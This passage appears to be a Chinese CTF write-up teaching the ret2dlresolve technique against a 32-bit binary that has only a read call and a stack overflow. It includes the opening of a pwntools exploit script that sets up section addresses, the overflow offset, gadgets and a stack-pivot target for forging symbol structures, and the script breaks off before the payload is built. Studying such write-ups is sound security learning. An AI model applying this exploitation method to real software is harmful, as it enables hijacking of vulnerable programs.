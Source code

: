 ## 实战ret2dlresolve

##手动构造exp探究原理
我感觉ret2dlresolve的情况只适用于没有打印函数的程序，毕竟有了打印函数就可以直接用ret2libc了，因此这里我以只有一个read函数的题目来演示一下

<img src="/upload/img/image-20220411122153109.png" alt="image-20220411122153109" style="zoom: 50%;" />

<img src="/upload/img/image-20220411122156488.png" alt="image-20220411122156488" style="zoom: 50%;" />


发现只有一个read函数，然后存在溢出，然后就啥都没有了，没有system函数，没有参数。像这种情况就考虑ret2dlresolve的方法了。

接下来我直接就上exp了，详细解释都在exp里面。（里面有的要用到图片解释的地方，我有进行标注，请参考最下面的补充内容）
题目我上传到网盘上了 链接https://pan.baidu.com/s/178HKNE9slZspt7EIB81zoA?pwd=ykpa  提取码ykpa

```python
#coding:utf-8
from pwn import *
context(arch='i386',os='linux',log_level='debug')
p=process('./pwn')
e=ELF('./pwn')
#gdb.attach(p)


plt0 = e.get_section_by_name('.plt').header.sh_addr
rel_plt = e.get_section_by_name('.rel.plt').header.sh_addr
dynsym = e.get_section_by_name('.dynsym').header.sh_addr
dynstr = e.get_section_by_name('.dynstr').header.sh_addr
#先初始化一下一会要用到的段首地址，就是把每个段的首地址都给赋值给变量
#当然了，你要是想去ida里面一个一个手动找出来，也完全没问题


offset=44#这个偏移没啥好说的了，ida或者gdb都能得到
read_plt_addr=e.plt['read']
four_pop_ret=0x080485d8#这里采用的是连续pop四次的gadget地址
leave_ret_addr=0x0804854A
base_addr=0x0804a800
#这个base_addr是我们要把栈迁移的地方，用gdb发现这一部分是可写的
#因此我们选择迁移到这里（具体参考补充①）


fake_sym_addr=base_addr+32#这个fake_sym_addr是Elf32_Sym结构的首地址
#原本是要把伪造的ELf32_Sym结构写在偏移32的位置的，但是还要对齐，因此下面还要再加align
```